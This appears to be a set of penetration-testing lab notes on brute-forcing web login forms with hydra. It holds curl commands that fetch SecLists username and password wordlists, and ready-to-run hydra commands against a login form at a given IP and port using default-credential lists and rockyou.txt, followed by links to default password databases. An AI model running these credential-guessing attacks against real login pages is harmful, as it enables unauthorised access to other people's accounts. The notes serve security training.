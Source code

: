 ```shell-session
curl -s -O https://raw.githubusercontent.com/danielmiessler/SecLists/master/Passwords/2023-200_most_used_passwords.txt
```
```shell-session
curl -s -O https://raw.githubusercontent.com/danielmiessler/SecLists/master/Usernames/top-usernames-shortlist.txt
```
```shell-session
$ hydra [options] target http-post-form "path:params:condition_string"
```

```shell-session
hydra -L top-usernames-shortlist.txt -P 2023-200_most_used_passwords.txt -f IP -s 5000 http-post-form "/:username=^USER^&password=^PASS^:F=Invalid credentials"
```

## Default Credentials

https://www.cirt.net/passwords
https://github.com/danielmiessler/SecLists/tree/master/Passwords/Default-
https://github.com/scadastrangelove/SCADAPASS/tree/master

```shell-session
$ hydra -C /opt/useful/SecLists/Passwords/Default-Credentials/ftp-betterdefaultpasslist.txt 178.35.49.134 -s 32901 http-post-form "/login.php:username=^USER^&password=^PASS^:F=<form name='login'"
```

## Password Wordlist
```shell-session
$ hydra -l admin -P /opt/useful/SecLists/Passwords/Leaked-Databases/rockyou.txt -f 178.35.49.134 -s 32901 http-post-form "/login.php:username=^USER^&password=^PASS^:F=<form name='login'"
```